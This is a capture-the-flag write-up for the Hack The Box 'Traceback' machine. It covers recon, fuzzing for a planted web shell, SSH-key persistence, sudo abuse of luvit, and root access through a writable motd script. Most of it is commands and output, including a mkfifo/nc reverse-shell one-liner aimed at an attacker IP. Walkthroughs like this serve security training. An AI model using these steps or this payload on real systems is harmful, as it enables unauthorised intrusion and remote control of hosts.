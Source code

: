 # Traceback-HTB
Traceback is a Linux machine that rated as easy and it contain some OSINT. So let's start :)

# Recon
I started by runing nmap scan on the machine and found 2 open ports.
```
┌──(kali㉿kali)-[~]
└─$ nmap -sC -sV 10.10.10.181
Starting Nmap 7.80 ( https://nmap.org ) at 2020-08-20 22:17 EDT
Nmap scan report for 10.10.10.181
Host is up (0.026s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 96:25:51:8e:6c:83:07:48:ce:11:4b:1f:e5:6d:8a:28 (RSA)
|   256 54:bd:46:71:14:bd:b2:42:a1:b6:b0:2d:94:14:3b:0d (ECDSA)
|_  256 4d:c3:f8:52:b8:85:ec:9c:3e:4d:57:2c:4a:82:fd:86 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Help us
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.47 seconds
```
By visiting the Web Server you will not find something useful, but if you looked at the suorce page you will find this:
```html
<center>
		<h1>This site has been owned</h1>
		<h2>I have left a backdoor for all the net. FREE INTERNETZZZ</h2>
		<h3> - Xh4H - </h3>
		<!--Some of the best web shells that you might need ;)-->
	</center>
```
So the author who made the Machine actually made a list of Web Shells that you can find here: https://github.com/Xh4H/Web-Shells

Then I coppied the list there and use it for fuzzing.
```
┌──(kali㉿kali)-[~/Desktop/HTB/TracBack]
└─$ cat Web-shell.txt 
alfa3.php
alfav3.0.1.php
andela.php
bloodsecv4.php
by.php
c99ud.php
cmd.php
configkillerionkros.php
jspshell.jsp
mini.php
obfuscated-punknopass.php
punk-nopass.php
punkholic.php
r57.php
smevk.php
wso2.8.5.php
```

## ffuf
As always the BEST tool for fuzing web directories is ffuf :)
```
┌──(kali㉿kali)-[~/Desktop/HTB/TracBack]
└─$ ./ffuf -w Web-shell.txt -u http://10.10.10.181/FUZZ

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.1.0
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.10.181/FUZZ
 :: Wordlist         : FUZZ: Web-shell.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403
________________________________________________

smevk.php               [Status: 200, Size: 1261, Words: 318, Lines: 59]
:: Progress: [16/16] :: Job [1/1] :: 4 req/sec :: Duration: [0:00:04] :: Errors: 0 ::
```
![image1](https://github.com/electronicbots/HackTheBox/blob/master/Machines/Traceback/images/1.png)

So we found the Web shell, but it require a username and a password. If you look look at ```smevk.php``` file you will find the username and the password ```admin:admin```

![image2](https://github.com/electronicbots/HackTheBox/blob/master/Machines/Traceback/images/2.png)

## User Flag

I prefer to work with a shell rathar than a Web Shell. So I added my public SSH key to the current user's.

![image3](https://github.com/electronicbots/HackTheBox/blob/master/Machines/Traceback/images/3.png)

And If we try to ssh now, we are in :)
```
┌──(kali㉿kali)-[~/Desktop/HTB/TracBack]
└─$ ssh webadmin@10.10.10.181
The authenticity of host '10.10.10.181 (10.10.10.181)' can't be established.
ECDSA key fingerprint is SHA256:7PFVHQKwaybxzyT2EcuSpJvyQcAASWY9E/TlxoqxInU.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.181' (ECDSA) to the list of known hosts.
#################################
-------- OWNED BY XH4H  ---------
- I guess stuff could have been configured better ^^ -
#################################

Welcome to Xh4H land 



Last login: Thu Feb 27 06:29:02 2020 from 10.10.14.3
webadmin@traceback:~$
```
So first thing we have is some notes:
```
webadmin@traceback:~$ cat note.txt 
- sysadmin -
I have left a tool to practice Lua.
I'm sure you know where to find it.
Contact me if you have any question.
```

If we try ```sudo -l```
```
webadmin@traceback:~$ sudo -l
Matching Defaults entries for webadmin on traceback:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User webadmin may run the following commands on traceback:
    (sysadmin) NOPASSWD: /home/sysadmin/luvit
```

So we know that we can run ```luvit``` as ```systemamin```. So let's spwan a shell:
```
webadmin@traceback:~$ sudo -u sysadmin /home/sysadmin/luvit -e 'os.execute("/bin/bash")'
sysadmin@traceback:~$ id
uid=1001(sysadmin) gid=1001(sysadmin) groups=1001(sysadmin)
```
Now we can get user flag:
```
sysadmin@traceback:/home/sysadmin$ cat user.txt 
a2a51fc3...caa3047eef4
```

## Root Flag

So if we check the running process we can find this:
```root       1531  0.0  0.0   4628   832 ?        Ss   19:57   0:00 /bin/sh -c sleep 30 ; /bin/cp /var/backups/.update-motd.d/* /etc/update-motd.d/ ```

if we check ```/etc/update-motd.d/ ```. We have write access on ```00-header``` so we can run commands as root. so let's get a reverse shell from it.

Start a listener: ``` nc -nlvp 4444 ```

Add the following line into 00-header ```rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.28 4444 >/tmp/f ```
```sysadmin@traceback:~$ echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.28 4444 >/tmp/f" >> /etc/update-motd.d/00-header ```

Now ssh and you will get your reverse shell
```
┌──(kali㉿kali)-[~]
└─$ ssh webadmin@10.10.10.181                                                                                                                                                                                                        130 ⨯
#################################
-------- OWNED BY XH4H  ---------
- I guess stuff could have been configured better ^^ -
#################################
```
Now you should get your reverse shell as root :)

```
kali@kali:~$ nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.10.14.28] from (UNKNOWN) [10.10.10.181] 34606
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
```
```
# cat root.txt
ba379ba...effa42c
```

Thanks for reading and you can find me here on Twitter: https://twitter.com/electronicbots
